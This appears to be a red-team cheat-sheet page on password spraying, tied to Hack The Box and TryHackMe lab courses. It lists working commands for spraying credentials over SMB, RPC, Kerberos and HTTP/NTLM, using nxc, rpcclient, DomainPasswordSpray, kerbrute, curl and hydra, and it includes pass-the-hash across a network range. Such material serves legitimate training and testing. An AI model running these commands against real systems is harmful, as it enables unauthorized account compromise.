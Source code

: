 # Password spraying

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)
[![passwordattacks](../../../../_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

<div class="row row-cols-lg-2"><div>

Password spraying is a technique that is the most commonly used nowadays to find a working credential pair.

We select a password and test it on a list of usernames. After a delay, we repeat this step with another password. 🤖

Many companies have some [password policy](policy.md) that may include account lookout after a certain number of failed attempts, which makes brute force impractical as we would lock all accounts.
</div><div>

Some tools you might use:

* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) <small>(1.5k ⭐, 2022 🪦)</small>
* [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray) <small>(1.1k ⭐)</small>
* [CredMaster](https://github.com/knavesec/CredMaster) <small>(1.0k ⭐)</small>

Many [network authentication tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) can be used such as `hydra -C`.
</div></div>

<hr class="sep-both">

## Windows Credentials Password spraying

<div class="row row-cols-lg-2"><div>

#### Leveraging SMB

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can use [SMB](/operating-systems/networking/protocols/smb.md):

```ps
$ nxc smb IP -u wordlist -p PasswordHere
$ nxc smb IP -u wordlist -p PasswordHere | grep +
$ nxc smb --local-auth CIDR -u administrator -H hash | grep +
```

#### Leveraging RPC

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

A very poor but straightforward [RPC](/operating-systems/networking/protocols/rpc.md) password spraying:

```ps
$ for u in $(cat wordlist);do rpcclient -U "$u%PasswordHere" -c "getusername;quit" IP | grep Authority; done
```
</div><div>

#### Leveraging A Domain-joined Host

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You may use [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) <small>(1.9k ⭐)</small>:

```ps
PS> Import-Module .\DomainPasswordSpray.ps1
PS> Invoke-DomainPasswordSpray -Password PasswordHere -OutFile output.txt -ErrorAction SilentlyContinue
```

#### Leveraging Kerberos Authentication Module

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can use [kerbrute](/cybersecurity/red-team/tools/utilities/windows/kerbrute.md):

```ps
$ kerbrute passwordspray -d domain --dc IP valid_users.txt mypassword
```
</div></div>

<hr class="sep-both">

## HTTP LDAP Credentials Password spraying

[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)

<div class="row row-cols-lg-2"><div>

We can use `curl` to test a pair of credentials:

```ps
$ curl URL -u "username:password" --ntlm
```

We can also use tools such as hydra:

```ps
$ hydra -L usernames.txt -p password example.com http-get
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [sprayhound](https://github.com/Hackndo/sprayhound)
</div><div>
</div></div>